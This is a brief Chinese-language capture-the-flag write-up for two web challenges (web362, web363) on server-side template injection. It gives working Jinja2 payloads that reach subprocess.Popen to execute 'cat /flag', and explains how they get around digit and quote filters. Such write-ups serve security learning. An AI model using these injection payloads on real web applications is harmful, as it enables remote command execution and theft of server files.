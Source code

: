 <img src="图片\Snipaste_2023-01-19_18-36-44.png" alt="Snipaste_2023-01-19_18-36-44"  />

## web362

web362-过滤部分数字

过滤了2、3等数字，os._wrap_close这个类没法使用，思考利用subprocess.Popen()

**payload**

```
?name={{().__class__.__mro__[1].__subclasses__()[407]("cat /flag",shell=True,stdout=-1).communicate()[0]}}
```

## web363

```
过滤单双引号，考虑使用get传参绕过

payload

?name={{().__class__.__mro__[1].__subclasses__()[407](request.args.a,shell=True,stdout=-1).communicate()[0]}}&a=cat /flag
```

